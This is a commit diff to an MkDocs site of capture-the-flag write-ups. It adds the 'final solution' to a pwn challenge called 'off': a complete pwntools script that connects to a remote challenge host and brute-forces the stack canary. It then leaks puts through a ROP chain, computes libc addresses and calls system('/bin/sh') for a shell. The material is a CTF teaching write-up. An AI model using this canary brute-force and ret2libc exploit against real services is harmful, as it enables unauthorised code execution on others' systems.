

Before and after one commit to andrei2308/ctf-challenges, an MkDocs documentation site: the page built from docs/cyberedu/pwn/off/description.md, in a window 1280 px wide and 1400 px high, scrolled down 2331 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2512 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

````diff
--- a/docs/cyberedu/pwn/off/description.md
+++ b/docs/cyberedu/pwn/off/description.md
@@ -87,3 +87,132 @@ payload = flat(
 Here is the final solution:
 
 ```python
+from pwn import *
+import sys
+
+exe = ELF('./pwn')
+context.binary = exe
+context.log_level = 'info'
+context.arch = 'amd64'
+# p = process([exe.path])
+p = remote('35.242.228.114',32241)
+# Bad characters for scanf (Whitespace)
+bad_chars = [0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20]
+# bad_chars = [0xa]
+def is_safe_addr(addr):
+    """Checks if an address contains any bad characters."""
+    addr_bytes = p64(addr)
+    for b in addr_bytes:
+        if b in bad_chars:
+            return False
+    return True
+
+def brute_force_canary():
+    p.recvuntil(b"What do you want to do?\n")
+    canary = b""
+    log.info("Starting Canary Brute-force...")
+
+    for i in range(8):
+        found_byte = False
+        for byte in range(256):
+            if i == 0 and byte != 0: continue
+            if byte in bad_chars: continue # Skip whitespace
+
+            try:
+                p.recvuntil(b"I'm here to serve you. :-)\n")
+            except EOFError:
+                log.critical("Parent process died!")
+                sys.exit(1)
+
+            guess = bytes([byte])
+            payload = b"A" * 1032 + canary + guess
+            p.sendline(payload)
+
+            try:
+                response = p.recvuntil(b"Done for this round", timeout=0.05)
+                if b"Done for this round" in response:
+                    canary += guess
+                    log.success(f"Byte found: {hex(byte)} | Canary: {canary.hex()}")
+                    found_byte = True
+                    break
+            except:
+                pass
+        if not found_byte:
+            log.error("Failed to find byte! Canary contains a bad char.")
+            sys.exit(1)
+
+    return canary
+
+# 1. get Canary
+canary = brute_force_canary()
+
+# canary = p64(0x001a56e396efd18d)
+log.success(f"Final Canary: {canary.hex()}")
+
+ret_gadget = 0x00000000004005f1
+pop_rdi_ret_gadget = 0x00000000004009b3
+entry_address = 0x004006a0
+puts_got = exe.got['puts']
+puts_plt = exe.plt['puts']
+
+
+payload = b'b' * 1032 # pad
+payload += canary # leave canary intact
+payload += b'c' * 8 # fill rbp
+payload += p64(pop_rdi_ret_gadget) # pop puts got into the rdi
+payload += p64(puts_got) # pointer to the real address
+payload += p64(puts_plt)
+payload += p64(entry_address)
+
+p.sendlineafter("I'm here to serve you. :-)\n",payload)
+
+# get the puts address
+log.info("Payload sent. Parsing leak...")
+
+try:
+    p.recvuntil(b'b' * 1032)
+
+    p.recv(1)
+
+    leak_data = p.recvline().strip()
+
+    if not leak_data:
+        log.error("Leak data is empty!")
+        sys.exit(1)
+
+    puts_leak = u64(leak_data.ljust(8, b"\x00"))
+    log.success(f"Leaked puts address: {hex(puts_leak)}")
+
+except Exception as e:
+    log.error(f"Failed to parse leak: {e}")
+    sys.exit(1)
+
+
+# pwn that shit
+
+# now we will guess the offsets
+puts_offset = 0x6f690
+system_offset = 0x45390
+str_bin_sh_offset = 0x18cd57
+# these are for local testing
+# puts_offset = 0x080e50
+# system_offset = 0x050d70
+# str_bin_sh_offset = 0x1d8678
+
+libc_base_addr = puts_leak - puts_offset
+system_address = libc_base_addr + system_offset
+str_bin_sh_addr = libc_base_addr + str_bin_sh_offset
+
+payload = b'p' * 1032 # reach canary
+payload += canary # keep intact
+payload += b'w' * 8 # fill rbp with trash
+payload += p64(ret_gadget)
+payload += p64(pop_rdi_ret_gadget)
+payload += p64(str_bin_sh_addr)
+payload += p64(system_address)
+
+# pwned
+p.sendlineafter(b"I'm here to serve you. :-)\n",payload)
+
+p.interactive()
+```
````
Also changed, not shown: docs/cyberedu/pwn/secret/description.md (+93 -0 lines), docs/cyberedu/rev_engineering/description.md (added, +200 -0 lines), docs/cyberedu/rev_engineering/image-1.png (added), docs/cyberedu/rev_engineering/image-2.png (added), docs/cyberedu/rev_engineering/image-3.png (added).
